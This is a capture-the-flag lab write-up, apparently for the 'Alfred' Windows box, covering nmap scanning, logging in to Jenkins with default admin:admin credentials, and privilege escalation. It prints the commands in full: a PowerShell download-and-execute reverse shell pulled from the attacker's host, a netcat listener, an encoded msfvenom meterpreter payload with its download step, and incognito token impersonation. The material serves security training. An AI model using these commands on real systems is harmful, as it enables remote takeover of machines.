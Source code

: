 # Alfred


## Nmap Scan
```$ nmap -sV -v -oN scans/initial_scan.nmap 10.10.118.177```
```$ nmap -A -p- -v -oN scans/all_scan.nmap 10.10.31.121```

```
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy
```


## Eumeration

HTTP server on port 8080 has username & password: admin:admin

Jenkin's projects seems to allow command execution, output is avalible to us


## Exploitation

By configuring the premade project we can insert our own command:
`powershell iex (New-Object Net.WebClient).DownloadString('http://$LOCAL_IP:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $LOCAL_IP -Port 9999`

Then setup an HTTP Python server to hold the Invoke-PowerShellTcp.ps1 shell:
`python3 -m http.server`

Finally set up NC listener:
`nc -lnvp 9999`

Build the project, get a shell!


## Upgrading Shell

Upgrading a shell is very nice, meterpreter provides a lot of commands that are normally hard to do on a normal shell

Plus we have post scripts from metasploit that we can use with a meterpreter shell

I tried using post/multi/manage/shell_to_meterpreter but it did not seem to work for some reason, so I will follow the guide

Lets generate a msfvenom payload, host it on the python server, and execute it on the victim

Create shell (in web directory):
`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=$LOCAL_IP LPORT=9998 -f exe -o mshell.exe`

Then download it:
`powershell "(New-Object System.Net.WebClient).Downloadfile('http://$LOCAL_IP:8000/mshell.exe','mshell.exe')"`


Put up multi/handler on metasploit with the same payload (windows/meterpreter/reverse_tcp) and run the shell:
`Start-Process "mshell.exe"`

Now we have a meterpreter session!


## Privilege Escalation

Attempted to run PowerUp.ps1 but the checks did not find anything

Metasploit's exploit suggester found "windows/local/ms10_092_schelevator" but it gave an error when ran:
```Exploit aborted due to failure: no-target: Running against via WOW64 is not supported, try using an x64 meterpreter...```
I attempted to fix it but to no avail


Show session tokens:
```whoami /priv
PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
*SeDebugPrivilege                Debug programs                            Enabled* 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled
```

Found a potentially dangerous token, "SeDebugPrivilege"

Load the meterpreter incognito module to exploit this

Use "list_tokes -g" to list all of the avalible tokens

The "BUILTIN\Administrators" token is avalible, time to impersonate it:
```impersonate_token "BUILTIN\Administrators"```

Lastly, while our shell is admin, our process may not be. We need to migrate into another process which has the administrator role 

NOTE TO SELF: DO NOT MIGRATE INTO THE SVCHOST.EXE PROCESS. IT SOMETIMES RUNS AS A NETWORK SERVICE, NOT ADMIN

I may have had to restart this step...

Now we are migrated, we have root!
